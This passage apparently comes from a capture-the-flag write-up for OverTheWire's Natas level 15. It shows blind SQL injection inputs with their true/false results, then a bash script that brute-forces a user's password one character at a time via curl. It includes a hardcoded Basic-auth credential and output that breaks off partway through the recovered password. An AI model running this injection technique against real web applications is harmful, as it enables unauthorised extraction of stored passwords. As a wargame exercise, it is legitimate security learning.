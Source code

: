 ```
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "n%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "n%"#
Result : true  
```

```
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "w%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "w%"#
Result : false   
```

```
natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "W%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "W%"#
Result : true
```


Lets create a bash script to get the password

```bash
passwordlenght=32
CurrentChar=0
password=""
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND (SELECT password FROM users WHERE username=\"natas16\" LIMIT 1) LIKE BINARY \"$password$letter%\"#"
        data="username=natas16$injection"
        curl_output=$(curl -s 'http://natas15.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==' -d "$data")
        if echo $curl_output | grep -q "This user exists."; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done 
``` 
```
[+] Password: W
[+] Password: Wa
[+] Password: WaI
[+] Password: WaIH
[+] Password: WaIHE
[+] Password: WaIHEa
[+] Password: WaIHEac
[+] Password: WaIHEacj
[+] Password: WaIHEacj6
[+] Password: WaIHEacj63
[+] Password: WaIHEacj63w
[+] Password: WaIHEacj63wn
[+] Password: WaIHEacj63wnN
[+] Password: WaIHEacj63wnNI
[+] Password: WaIHEacj63wnNIB
[+] Password: WaIHEacj63wnNIBR
[+] Password: WaIHEacj63wnNIBRO
[+] Password: WaIHEacj63wnNIBROH
[+] Password: WaIHEacj63wnNIBROHe
[+] Password: WaIHEacj63wnNIBROHeq
```